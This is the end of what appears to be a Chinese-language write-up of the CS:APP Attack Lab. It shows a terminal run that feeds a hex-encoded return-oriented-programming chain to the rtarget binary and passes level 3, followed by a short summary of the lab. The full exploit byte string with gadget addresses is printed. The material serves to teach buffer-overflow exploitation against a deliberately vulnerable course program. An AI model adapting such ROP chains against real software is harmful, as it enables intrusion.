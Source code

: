 ```shell script
> ./hex2raw -i phase5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

_注：以上 5 张栈图均按从左往右的顺序存储字节数据（书中是按照从右往左存储，这里偷懒不想再反序了）_

## 小结

Attack Lab 总体上来说比 Bomb Lab 简单一点，这个体力活占得更多，因为总共就几种方法，可以根据需要实现的效果和已有的指令轻易推导出来可以如何组织这些指令。
